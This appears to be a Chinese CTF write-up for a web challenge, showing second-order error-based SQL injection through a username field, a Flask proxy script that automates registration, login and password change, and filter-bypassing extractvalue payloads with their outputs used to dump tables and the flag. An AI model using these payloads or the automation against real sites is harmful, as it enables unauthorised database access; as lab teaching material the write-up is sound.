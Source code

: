 ![[Pasted image 20230102083703.png|500]]

---
首页长这样

![[Pasted image 20230102083746.png]]

注册账户的时候卡了一下，看源码差点没晕掉，哪有`email`过滤`@`的QAQ

![[Pasted image 20230102084658.png|1000]]

使用用户名`admin"`注册，登录并在`changepwd.php`修改密码后，会出现错误提示

![[Pasted image 20230102094151.png|700]]

官方`wp`非常优雅地使用了代理转发来实现过程的自动化，赶紧学起来

```python
import requests
from flask import Flask, request, Response

app = Flask(__name__)
end_host = 'xxx.node4.buuoj.cn:81'
session = requests.Session()

@app.before_request
def before_request():
    data = request.data or request.form or None
    r = hack(data['username'])
    resp_headers = []
    for name, value in r.headers.items():
        if name.lower() in ('content-length', 'connection', 'content-encoding'):
            continue
        resp_headers.append((name, value))
    return Response(r, status=r.status_code, headers=resp_headers)

def hack(username):
    register(username)
    login(username)
    return changepwd()

def register(username):
    paramsPost = {'password': '123', 'email': '11', 'username': username}
    session.post('http://{}/register.php'.format(end_host), data=paramsPost)

def login(username):
    paramsPost = {'password': '123', 'username': username}
    session.post('http://{}/login.php'.format(end_host), data=paramsPost)

def changepwd():
    paramsPost = {'oldpass': '', 'newpass': ''}
    response = session.post('http://{}/changepwd.php'.format(end_host), data=paramsPost)
    return response

app.run(port=80, debug=True)
```

![[Pasted image 20230102095135.png|1000]]

由于存在错误回显，尝试报错注入（空格、`right`、`limit`这些被`ban`了）
```sql
username=admin"^extractvalue(1,concat(0x5c,database()))#
```

```
XPATH syntax error: '\web_sqli'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web_sqli'))))#
```

```
XPATH syntax error: '\article,flag,users'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))))#
```

```
XPATH syntax error: '\flag'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(flag))from(flag))))#
```

```
XPATH syntax error: '\RCTF{Good job! But flag not her'
```

不在`flag`表里

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))))#
```

```
XPATH syntax error: '\name,pwd,email,real_flag_1s_her'
```

使用`regexp`获取被截断的项
```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))))#
```

```
XPATH syntax error: '\real_flag_1s_here'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users))))#
```

```
XPATH syntax error: '\xxx,xxx,xxx,xxx,xxx,xxx,xxx,xxx'
```

再次使用`regexp`匹配

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\flag{a8f839e3-d22e-4629-a4f9-3a'
```

使用`reverse`获取被截断的内容

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(reverse(real_flag_1s_here)))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\}f44af64b92a3-9f4a-9264-e22d-3e'
```

倒转后拼接即可

#Web #SQL注入 #代理 #报错注入 #绕过 